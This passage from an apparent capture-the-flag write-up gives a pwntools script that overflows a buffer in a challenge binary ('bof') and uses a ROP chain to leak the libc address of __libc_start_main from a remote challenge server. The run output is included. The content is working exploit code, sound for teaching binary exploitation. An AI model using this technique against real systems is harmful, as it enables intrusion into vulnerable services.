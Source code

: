 Here's our script to leak `__libc_start_main`:
```python3
""" The following script was based heavily on the script provided in the following url """
"""           https://tasteofsecurity.com/security/ret2libc-unknown-libc/              """

from pwn import * # Import pwntools

p = remote("chals20.cybercastors.com", 14425) # Connect to the remote server
#p = process("./bof") # start the vuln binary
elf = ELF("./bof") # Extract data from binary
rop = ROP(elf) # Find ROP gadgets

# Find addresses for puts, __libc_start_main and a `pop rdi;ret` gadget
PUTS = elf.plt['puts']
LIBC_START_MAIN = elf.symbols['__libc_start_main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] # Same as ROPgadget --binary vuln | grep "pop rdi"
MAIN = elf.symbols['main']
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

base = b"A"*256 + b"B"*8 #Overflow buffer until return address
# Create rop chain
rop = base +  p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS)

#Send our rop-chain payload
p.sendline(rop)

#Parse leaked address
print(p.recvline())
print(p.recvuntil("name: "))
received = p.recvline()
received = received.strip()
print(received)
leak = u64(received.ljust(8, b"\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

p.close()
```

Let's run the script:
```console
$ python3 leak.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] 'bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 14 cached gadgets for './bof'
[*] puts@plt: 0x400590
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x4007f3
b'Welcome to the cybercastors Babybof\n'
b'Say your name: '
b'\xc0?m \xd7\x7f'
[*] Leaked libc address,  __libc_start_main: 0x7fd7206d3fc0
[*] Closed connection to chals20.cybercastors.com port 14425
```
We see that for this particular run, the address of `__libc_start_main` was 0x7fd7206d3fc0.  